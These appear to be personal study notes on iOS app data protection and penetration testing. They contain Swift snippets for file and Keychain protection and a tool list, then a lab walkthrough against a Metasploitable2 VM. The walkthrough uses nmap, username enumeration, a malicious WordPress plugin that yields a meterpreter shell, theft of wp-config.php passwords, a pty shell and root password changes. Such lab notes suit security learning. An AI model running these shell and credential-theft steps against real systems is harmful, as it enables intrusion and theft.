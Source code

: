# Penetration Tests & Mobile Security 
## Mobile App Security
### Target: protect sensitive data:
	- User Authentication Information (credentials, PINs)
	- Personally Identifiable Information (PII)
	  (social security nubers, credit card number, bank account, health info)
	- Device Identifiers
	- Encryption keys
### Objective:
	- Confidentiality
	- Integrity
	- Availability
### OWASP (Open Web App Security Project) identified vulnerabilities (2016): Mobile Top 10
	Inproper platform usage
	Insecure data storage
	Insecure communication
		Use SSL/HTTPS
	Insecure authentication
	Insufficient cryptography
	Insecure authorization
	Client code quality
	Code tampering
	Reverse engineering
	Extraneous functionality
### iOS API:
	on iOS: use File Data Protection (when user set an active passcode for the device)
	NSFileProtectionComplete[UnlessOpen|UntilFirstUserAuthentication] & NSFileProtectionNone
	Data Protection (mode NSFileProtectionComplete) can be set on/off in Xcode for the project (Tab 'capabilities')
	do
	{		
		try FileManager.default.createDirector(at:dir, withIntermetiateDirectories: true, attributes: [.protectionKey: fileProtectionType.complete])
		try data.write(to: path, options: [.atomicWrite, .completeFileProtection])
		try myNSURL.setResourceValue(URLfileProtection.complete, forKey: .fileProtectionKey)
	}
	catch let err
	{
		//handle err
	}

	Use Keychain Data Protection
	Modes:
		kSecAttrAccessibleWhenPasscodeSetThisDeviceOnly (most restrictive)
		kSecAttrAccessibleWhenUnlockedThisDeviceOnly
		kSecAttrAccessibleWhenUnlocked (default)
		...
		kSecAttrAccessibleAlways (least restrictive)
	Usage:
		//we require the users presence here
		var err: NSError?
		let access = SecAccessControlCreateWithFlags(NULL, kSecAttrAccessibleWhenUnlocked, kSecAccessControlUserPresence, &err);

		//query is a QueryDictionary
		//query dict to create an item with default accessibility settings
		var query: [String: Any] =
			[kSecClass as String: kSecClassInternetPassword,
			kSecAttrAccount as String: account,
			kSecAttrServer as String: server,
			kSecAttrAccessControl as String: access,		//optional: require users presence
			kSecValueData as String: password]
		//query dict to create an item with restricted accessibility
		var query: [String: Any] =
			[kSecClass as String: kSecClassInternetPassword,
			kSecAttrAccount as String: account,
			kSecAttrServer as String: server,
			kSecAttrAccessible as String: kSecAttrAccessibleWhenPasscodeSetThisDeviceOnly,
			kSecValueData as String: password]

	Sensitive UI elements should be hidden, when app goes into background (to avoid them in the screenshot/snapshot of the app)
	NotificationCenter.default.addObserver(self, selector(didEnterBackground), name: .UIApplicationDidEnterBackground, object:nil)

	By default, all the text from text objects with autocorrection enabled, are cached in
	/User/Libary/Keyboard/dynamic-text.data
	therefore
		turn off auto-correct on sensitive input fields:
		set UITextField.autocorrectionType = UITExtAutocorrectionType.no
		set UITextField.isSecureTextEntry = true (text cannot be copied now)

	URLSession caches via URLCache in [appfolder]/Library/Caches/com.bundle.id/Cache.db (a sqlite db)
	the NSURLCache db is encrypted via iOS's File Protection System
	therefore
		let cfg:URLSessionConfiguration = URLSessionConfiguration()
		cfg.urlCache = nil
		let sess:URLSession = URLSession(configuration:cfg)
		//override URLSession:dataTask:willCacheResponse:completionHandler: to return a cached response stripped of sensitive data
		func urlSession(
			session:URLSession,
			dataTask: URLSessionDataTask,
			willCachResponse proposedResponse: CachedURLResponse,
			completionHandler: @escaping (CachedURLResponse?) -> Void)
			{
				completionHandler(nil)
			}

	Scan for vulnerabilities: AppScan (Application Security Analyzer), checks OWASP topics too

# Penetration Tests
## Tools
### Network vulnerability assessment tools:
	Nmap, OpenVAS, Wireshark, Metasploit, MBSA (Microsoft baseline security analyzer)
	Nipper: firewall check, check for weak SNMP community strings (is commercial!)
	WI-FI: kismet(can GPS -> locate device!), aircrack-ng, Kali with Alfa wireless adapter
### Web vulnerability assessment tools:
	OWASP ZAP, Acunetix, Burp suite, Nikto, sqlmap, Nessus, Nexpose
	OWASP ZAP checks for X-Frame.Options, XSS, ...
## Definitions
	pentest = authorized simulated attack looking for security weakness
	Black Hat = with no prior knowledge of network & app to be tested
	White Hat = with complete knowledge of network to be tested
	Kali Linux = distro for digital forensics and pentest
		(also as VM downloadable(best in VMWare))
		(alternative: Parrot)
	Metasploitable2 = intentionally vulnerable Linux without GUI, VM for VMWare
		(a a VM, use Bridged & replicated Network settings)
## Test Setup
	Start both the Kali & Metasploitable2 VMs, login to both
	$ ifconfig 			# get the IP of both
	$ nmap -O 192.168.110.135	# start network scan on Kali
	-> Now start all Engines of Kali!
### Manual Check Workflow
	$ nmap -sS 192.168.110.135	# lists open ports
	OWASP DirBuster				# GUI tool to find accessible folders/files on a HTTP server, you see wordpress folder structure
	$ ssh 192.168.110.135		# checks ssh access, check SNMP server
	try to login with 'admin'	# if errro msg says "password is incorrect", you know that 'admin' user exists
	download malicious-wordpress-plugin from github and install it:
		$ sudo python wordpwn.py 192.168.110.135 4444 Y		#
		192.168.110.135/wp-admin/update.php?action=upload-plugin	# gives you a meterpeter shell on the server
		meterpeter> download wp-config.php /root	# download php with all the passwords
		download //github.com/pentestmonkey/unix-privesc-check+
		meterpeter> upload ./unix-privesc-check
		meterpeter> shell		# or better: python -c 'import pty; pty.spawn("/bin/bash")'
			chmod +x unix-privesc-check
			./unix-privesc-check standard > o.txt
			^C
		meterpeter> download o.txt
		openssl passwd -l	# creates new password -> set it into /root/passwd
		
### Standards / Compliance
	PCI DSS
	HIPAA
	Retail Stores
	POS Systems

	
### Mobile Pen Test Linklist:
https://github.com/tanprathan/MobileApp-Pentest-Cheatsheet/blob/master/README.md#mobile-application-security-testing-distributions
